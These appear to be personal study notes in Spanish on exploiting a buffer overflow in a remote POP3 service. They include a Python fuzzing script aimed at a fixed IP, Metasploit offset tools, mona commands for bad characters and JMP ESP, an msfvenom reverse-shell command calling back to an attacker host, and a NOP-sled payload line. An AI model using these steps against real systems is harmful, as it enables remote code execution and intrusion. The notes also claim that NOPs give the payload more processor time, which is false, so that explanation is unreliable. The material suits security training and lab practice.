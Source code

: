 ```yaml
---
created: 2024-12-21

---
```

--------------------
- tags: #BufferOverflow #system #privilegeescalation 
---------------


### Mini script como plantilla de ayuda para explotar un servicio remoto

```python 3
import socket
import sys
from struct import pack
from time import sleep

# Variables globales
ip = "192.168.0.159"
port = 110

if len(sys.argv) != 2:
        print("Se requiere añadir un payload para la contraseña.\n\n \t + Ejemplo: python3 exploit.py AAAAAA" + "\n")
        exit(1)

payload = int(sys.argv[1])

#total_lenght = int(sys.argv[1])

s  = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

banner = s.recv(1024)
print("\n[+] Banner del servicio:\n" + str(banner) + "\n")

sleep(3)

s.send(b"USER hola\r\n")
respuesta = s.recv(1024)
print("[+] Respuesta al usuario: \n" + str(respuesta) + "\n")

s.send(b"PASS " + b"A"*payload + b"\r\n")
respuesta2 = s.recv(1024)
print("[+] Respuesta a la contraseña: \n" + str(respuesta2) + "\n")


```




### Generar cadena de bytes para hallar el offset

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l numero de bytes

	/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500

### Conocer el valor del offset a partir del valor del EIP en el crasheo

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xValor de EIP 

	/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x34644633



	!mona  bytearray
	!mona bytearray -cpb '\x00\x0a\x0d'

025DA128 Es el valor de ESP

	!mona compare -a 0x025DA128 -f C:\Users\david\Desktop\Mona\bytearray.bin



### Generar payload con msfvenom

	msfvenom -p windows/shell_reverse_tcp --format py --platform windows -a x86 -b '\x00\x0a\x0d' LHOST=192.168.0.123 LPORT=443 EXITFUNC=thread


### Búsqueda de módulo para encontrar el jmp esp y saltar al ESP donde estará el payload

	!mona modules
(Buscamos uno con las cuatro primeras columnas en False y copiamos la dirección de la memoria)


┌──(root💀davidalonso)-[~/maquinas/BOF/second_try]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb                  
nasm > jmp ESP
/tmp/nasmXXXX20230719-51582-cduzas:2: error: parser: instruction expected
Error: Assembler did not complete successfully: 1
nasm > jmp ESP
00000000  FFE4              jmp esp



	!mona find -s '\xFF\xE4' -m SLMFC.DLL

### Si con ese comando no encontramos nada, tambien podemos usar este:

	!mona findwild -s "JMP ESP"



### Añadir NOPS antes de enviar el payload

	payload = before_eip + eip + b"\x90"*50 + buf

> Los NOPS hacen referencia a ese b"\\x90"\*50 que se ve, esto le permite al programa asignarle más tiempo de procesador
> a nuestro payload, ya que de lo contrario no tendrá tiempo suficiente para ejecutarse. Se puede aumentar todavía más 
> si es necesario


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
